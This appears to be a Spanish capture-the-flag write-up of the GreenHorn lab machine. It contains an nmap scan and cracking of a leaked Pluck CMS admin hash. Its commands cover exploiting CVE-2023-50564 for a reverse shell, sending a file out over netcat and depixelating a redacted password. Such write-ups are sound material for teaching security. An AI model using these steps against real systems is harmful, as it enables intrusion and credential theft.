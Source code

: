 
# PortScan
```java
# Nmap 7.94SVN scan initiated Fri Jul 26 08:19:43 2024 as: nmap -sCV -p22,80,3000 -oN ../nmap/Targeted 10.10.11.25
Nmap scan report for greenhorn.htb (10.10.11.25)
Host is up (0.052s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-title: Welcome to GreenHorn ! - GreenHorn
|_Requested resource was http://greenhorn.htb/?file=welcome-to-greenhorn
|_http-generator: pluck 4.7.18
| http-robots.txt: 2 disallowed entries 
|_/data/ /docs/
|_http-trane-info: Problem with XML parsing of /evox/about
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=7f63cabc26814f93; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=1e_vVQebnDrKLsTj_D-h9QAmBqQ6MTcyMTk5NjM5MTMyOTM1OTY0Mg; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Fri, 26 Jul 2024 12:19:51 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>GreenHorn</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=1692c4975c64aff4; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=ruVs7tym7wmHsFM0vVa_368OMPM6MTcyMTk5NjM5Njg0OTA1NjYwOA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Fri, 26 Jul 2024 12:19:56 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=7/26%Time=66A39467%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x
SF:20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Ba
SF:d\x20Request")%r(GetRequest,37DB,"HTTP/1\.0\x20200\x20OK\r\nCache-Contr
SF:ol:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nCo
SF:ntent-Type:\x20text/html;\x20charset=utf-8\r\nSet-Cookie:\x20i_like_git
SF:ea=7f63cabc26814f93;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Coo
SF:kie:\x20_csrf=1e_vVQebnDrKLsTj_D-h9QAmBqQ6MTcyMTk5NjM5MTMyOTM1OTY0Mg;\x
SF:20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Opt
SF:ions:\x20SAMEORIGIN\r\nDate:\x20Fri,\x2026\x20Jul\x202024\x2012:19:51\x
SF:20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"the
SF:me-auto\">\n<head>\n\t<meta\x20name=\"viewport\"\x20content=\"width=dev
SF:ice-width,\x20initial-scale=1\">\n\t<title>GreenHorn</title>\n\t<link\x
SF:20rel=\"manifest\"\x20href=\"data:application/json;base64,eyJuYW1lIjoiR
SF:3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6
SF:Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmh
SF:vcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLC
SF:JzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvY
SF:X")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(HTTPOptions,1A4,"HTTP/1\.0\x20405\x20Method\x20Not\x20All
SF:owed\r\nAllow:\x20HEAD\r\nAllow:\x20HEAD\r\nAllow:\x20GET\r\nCache-Cont
SF:rol:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nS
SF:et-Cookie:\x20i_like_gitea=1692c4975c64aff4;\x20Path=/;\x20HttpOnly;\x2
SF:0SameSite=Lax\r\nSet-Cookie:\x20_csrf=ruVs7tym7wmHsFM0vVa_368OMPM6MTcyM
SF:Tk5NjM5Njg0OTA1NjYwOA;\x20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20Sam
SF:eSite=Lax\r\nX-Frame-Options:\x20SAMEORIGIN\r\nDate:\x20Fri,\x2026\x20J
SF:ul\x202024\x2012:19:56\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPR
SF:equest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/
SF:plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Re
SF:quest");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


# Web Site
![[Pasted image 20240726102600.png]]

De primera se me ocurre que es un **CMS**, pensé de primeras "WordPress?, Joomla?", es los típicos vaya... pero para confirmarlo analice las tecnologías de la pagina con **whatweb**.
![[Pasted image 20240726102802.png]]

descubro que es un "**Pluck**", nunca había oído de este CMS, pero hice una investigación rápida en internet, incluso de esa versión, descubriendo un **PoC** existente para un **RCE** logueado como admin [CVE-2023-50564](https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC), doy a "**admin**" en el Footer de la pagina principal y me redirige al logueo con ruta: **/login.php**, intente credenciales típicas, y no logre nada, de hecho después de varios intento me bloqueaba por 5 minutos, por lo que descartaría un **Brute Force Attack**.

![[Pasted image 20240726103611.png]]



Como **nmap** reporto al principio por el banner del **:3000** era un **HTTP**, así que me dirijo allí a ver que es ya que **nmap** no relevo información interesante.
![[Pasted image 20240726103958.png]]

Descubro un **Gitea**, que de primera no se que es, googleo & es un control de versiones así como **Github**, así que se me ocurre seguir indagando a ver si encuentro el código fuente del proyecto, asi que clickeo en "**Explore**".

![[Pasted image 20240726104135.png]]Descubriendo lo que parece ser el código fuente de la aplicación, así que empiezo a indagar & buscar credenciales o vulnerabilidades que lleven a un **RCE**.

![[Pasted image 20240726104350.png]]

Descubriendo en el "**Login.php**", que utiliza un script en "**/data/settings/pass.php**" para verificar que esa es la contraseña de admin, y la contraseña que se ponga como input se convierte en un hash **sha512** para corroborar que esa es la contraseña correcta, asi que voy a ver la contraseña de admin en **data**...

![[Pasted image 20240726104837.png]]

definitivamente es un hash, así que se me ocurre usar **John The Ripper** para probarlo con el diccionario de **Rockyou.txt** a ver si el hash coincide con alguna contraseña de ese diccionario...

![[Pasted image 20240726105308.png]]

Logrando así encontrar la contraseña correcta para entrar como **admin** al CMS.
![[Pasted image 20240726105511.png]]

y ya en este punto podría aprovecharme del **PoC** que encontré al principio para un **RCE** & entablarnos una **Reverse Shell.**

1. Nos clonamos el CVE con los exploit con Git.
```bash
git clone https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC
cd CVE-2023-50564_Pluck-v4.7.18_PoC
```

2. Modificamos el **shell.php** con nuestra IP & puerto de escucha para la shell.

3. Convertiremos ese **.php** en **zip.**
```bash
zip shell.zip shell.php
```

4. Nos ponemos en escucha con **Ncat**:
```bash
nc -nlvp PORT
```

5. Subimos el **.zip** en  la ruta **/admin.php?action=installmodule**:

y así recibiríamos la Shell:
![[Pasted image 20240726110108.png]]

ya quedaría darle Tratamiento a la TTY, sino sabes [((HAZ CLICK AQUI))](https://4uli.github.io/tratamiento-tty/#)

____


# Privilege Escalation 1

Primero miro los usuarios con directorios en **/home**, descubriendo que existen dos.
![[Pasted image 20240726110350.png]]

primero intento reutilizar la contraseña del panel del **CMS** con **GIT**, no logro nada, pero con **Junior** si reutilizar la contraseña, Y VUALA.

_____

# Privilege Escalation 2

![[Pasted image 20240726110522.png]]

En el directorio personal de Junior hay un PDF de utilizando **OpenVAS**, que es un componente de escaneo automático, que para cierto escaneos necesita de permisos ROOT así que me interesa ver que tiene este **PDF**, procedo a mandarmelo a mi maquina atancate.

1. Nos ponemos en escucha con **Ncat** desde nuestro host esperando el .pdf.
```bash
nc -lvp 443 > 'Using OpenVAS.pdf'
```

2. Enviamos el .pdf desde la maquina comprometida.
```bash
nc IP PORT < 'Using OpenVAS.pdf'
```


Miramos el **.pdf** con el navegador que mejor nos siente...

![[Pasted image 20240726111532.png]]

solo **ROOT** puede ejecutar **OpenVAS**, y esta la credenciales en el **pdf**, pero esta **"censurado"**, pero podemos usar herramienta para intentar descifrar la contraseña....

usamos la herramienta "**pdfimages**" para tomar una captura de la imagen de la contraseña, y posterior tratar de descifrarla
```bash
pdfimages 'Using OpenVAS.pdf' hidepass
```

nos creara un archivo **.ppm** el cual usaremos para la herramienta [Depix](https://github.com/spipm/Depix), clonando su repositorio y usando luego esta linea con los path's correctos:
```bash
python3 depix.py \
    -p /path/to/your/input/hidepass-000.ppm \
    -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png \
    -o /path/to/your/output.png
```


una vez finalice, nos dará un **output.png** el cual sera una "Reconstrucción" de la **"posible"** contraseña.
![[Pasted image 20240726112549.png]]

intento escalar a **Root** con estas credenciales y...

![[Pasted image 20240726112746.png]]

MAGIAAAAAAAAAAA